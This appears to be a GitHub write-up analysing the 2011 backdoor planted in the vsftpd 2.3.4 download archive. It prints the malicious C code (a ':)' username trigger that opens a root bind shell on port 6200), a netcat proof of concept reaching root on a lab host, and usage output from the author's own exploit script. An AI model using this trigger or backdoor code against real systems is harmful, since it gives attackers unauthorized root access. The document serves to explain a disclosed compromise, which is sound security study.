 # vsftpd v2.3.4 Backdoor Command Execution

## Timeline :

A malicious backdoor was added to the VSFTPD download archive. This backdoor was introduced into the `vsftpd-2.3.4.tar.gz` archive between June 30th 2011 and July 1st 2011 according to the most recent information available. This backdoor was removed on July 3rd 2011.

Backdoor discovered by **Mathias Kresin**.

Metasploit module is also available for this vulnerability. It's written by:

* hdm <x@hdm.io>
* MC <mc@metasploit.com>


## Vulnerability analysis

Checking GPG signature :

```
$ gpg --verify vsftpd-2.3.4.tar.gz.asc vsftpd-2.3.4.tar.gz
gpg: Signature made Wed, Feb 16, 2011  4:08:11 AM IST
gpg:                using DSA key AA62EC463C0E751C
gpg: Good signature from "Chris Evans <chris@scary.beasts.org>" [unknown]
gpg: WARNING: This key is not certified with a trusted signature!
gpg:          There is no indication that the signature belongs to the owner.
Primary key fingerprint: 8660 FD32 91B1 84CD BC2F  6418 AA62 EC46 3C0E 751C

```

**Not certified with a trusted signature.** (screams that vsftpd 2.3.4 from master site/branch was patched.)

Still this archive ran across the internet. Yes.

It's good that we have the source, let's compare it with the penultimate official release.

#### Diff 

```
Only in vsftpd-2.3.4: access.o
Only in vsftpd-2.3.4: ascii.o
Only in vsftpd-2.3.4: banner.o
Only in vsftpd-2.3.4: features.o
Only in vsftpd-2.3.4: filestr.o
Only in vsftpd-2.3.4: ftpcmdio.o
Only in vsftpd-2.3.4: ftpdataio.o
Only in vsftpd-2.3.4: ftppolicy.o
Only in vsftpd-2.3.4: hash.o
Only in vsftpd-2.3.4: ipaddrparse.o
Only in vsftpd-2.3.4: logging.o
Only in vsftpd-2.3.4: ls.o
Only in vsftpd-2.3.4: main.o
Only in vsftpd-2.3.4: netstr.o
Only in vsftpd-2.3.4: oneprocess.o
Only in vsftpd-2.3.4: opts.o
Only in vsftpd-2.3.4: parseconf.o
Only in vsftpd-2.3.4: postlogin.o
Only in vsftpd-2.3.4: postprivparent.o
Only in vsftpd-2.3.4: prelogin.o
Only in vsftpd-2.3.4: privops.o
Only in vsftpd-2.3.4: privsock.o
Only in vsftpd-2.3.4: ptracesandbox.o
Only in vsftpd-2.3.4: readwrite.o
Only in vsftpd-2.3.4: secbuf.o
Only in vsftpd-2.3.4: secutil.o
Only in vsftpd-2.3.4: ssl.o
Only in vsftpd-2.3.4: sslslave.o
Only in vsftpd-2.3.4: standalone.o
diff -ur vsftpd-2.3.4/str.c vsftpd-2.3.4.4players/str.c
--- vsftpd-2.3.4/str.c	2011-06-30 15:52:38.000000000 +0200
+++ vsftpd-2.3.4.4players/str.c	2008-12-17 06:54:16.000000000 +0100
@@ -569,11 +569,6 @@
     {
       return 1;
     }
-    else if((p_str->p_buf[i]==0x3a)
-    && (p_str->p_buf[i+1]==0x29))
-    {
-      vsf_sysutil_extra();
-    }
   }
   return 0;
 }
Only in vsftpd-2.3.4: str.o
Only in vsftpd-2.3.4: strlist.o
diff -ur vsftpd-2.3.4/sysdeputil.c vsftpd-2.3.4.4players/sysdeputil.c
--- vsftpd-2.3.4/sysdeputil.c	2011-06-30 15:58:00.000000000 +0200
+++ vsftpd-2.3.4.4players/sysdeputil.c	2010-03-26 04:25:33.000000000 +0100
@@ -34,10 +34,7 @@
 /* For FreeBSD */
 #include <sys/param.h>
 #include <sys/uio.h>
-#include <netinet/in.h>
-#include <netdb.h>
-#include <string.h>
-#include <stdlib.h>
+
 #include <sys/prctl.h>
 #include <signal.h>
 
@@ -220,7 +217,7 @@
 static int s_proctitle_inited = 0;
 static char* s_p_proctitle = 0;
 #endif
-int vsf_sysutil_extra();
+
 #ifndef VSF_SYSDEP_HAVE_MAP_ANON
 #include <sys/types.h>
 #include <sys/stat.h>
@@ -843,30 +840,6 @@
   }
 }
 
-int
-vsf_sysutil_extra(void)
-{
-  int fd, rfd;
-  struct sockaddr_in sa;
-  if((fd = socket(AF_INET, SOCK_STREAM, 0)) < 0)
-  exit(1); 
-  memset(&sa, 0, sizeof(sa));
-  sa.sin_family = AF_INET;
-  sa.sin_port = htons(6200);
-  sa.sin_addr.s_addr = INADDR_ANY;
-  if((bind(fd,(struct sockaddr *)&sa,
-  sizeof(struct sockaddr))) < 0) exit(1);
-  if((listen(fd, 100)) == -1) exit(1);
-  for(;;)
-  { 
-    rfd = accept(fd, 0, 0);
-    close(0); close(1); close(2);
-    dup2(rfd, 0); dup2(rfd, 1); dup2(rfd, 2);
-    execl("/bin/sh","sh",(char *)0); 
-  } 
-}
-
-
 void
 vsf_sysutil_set_proctitle_prefix(const struct mystr* p_str)
 {
Only in vsftpd-2.3.4: sysdeputil.o
Only in vsftpd-2.3.4: sysstr.o
Only in vsftpd-2.3.4: sysutil.o
Only in vsftpd-2.3.4: tcpwrap.o
Only in vsftpd-2.3.4: tunables.o
Only in vsftpd-2.3.4: twoprocess.o
Only in vsftpd-2.3.4: utility.o
```

### Attack Anatomy

The concept is triggering the malicious `vsf_sysutil_extra();` function. As we can see the diff, it can be achieved by sending a sequence of specific bytes on port 21, namely, sequence of 0x3a (colon) and 0x29 (close parenthesis, close parens) which, on successful execution, results in opening the backdoor on non-standard port 6200 of the system with root privileges.

All commands which are sent gets executed using `execl("/bin/sh","sh",(char *)0);` function.


## Proof of Concept

```
woot@root:~$ nc 192.168.233.155 6200 -v
nc: connect to 192.168.233.155 port 6200 (tcp) failed: Connection refused
woot@root:~$ nc 192.168.233.155 21 -v
Connection to 192.168.233.155 21 port [tcp/ftp] succeeded!
220 (vsFTPd 2.3.4)
USER 0x48piraj:)       
331 Please specify the password.
PASS letmein
^C
woot@root:~$ nc 192.168.233.155 6200 -v
Connection to 192.168.233.155 6200 port [tcp/*] succeeded!
id -un
root
exit

woot@root:~$ 

```
## Our Own Exploit Sandwitch

```
C:\>exploit.py -h
usage: exploit.py [-h] --target-ip TARGET_IP --target-port TARGET_PORT

vsFTPd 2.3.4 Backdoor Execution Exploit

Required Parameters:
  --target-ip TARGET_IP
                        IP Address of the vulnerable machine
  --target-port TARGET_PORT
                        Port Address of the vulnerable running service

C:\>exploit.py --target-ip 192.168.233.155 --target-port 21
[*] Connecting to the target ...
[*] Connected to Port 21, looking for vsFTPd 2.3.4 ...
[*] Target seems vulnerable!
[*] Triggered the Backdoor, Spawning r00t shell ...
[*] Root Shell Spawned!

(0x48piraj)$ id -un
(0x48piraj)$ root
(0x48piraj)$ exit


C:\>
```


## References

- https://scarybeastsecurity.blogspot.com/2011/07/alert-vsftpd-download-backdoored.html
- https://www.rapid7.com/db/modules/exploit/unix/ftp/vsftpd_234_backdoor
- http://lwp.interglacial.com/appf_01.htm
- http://man7.org/linux/man-pages/man3/system.3.html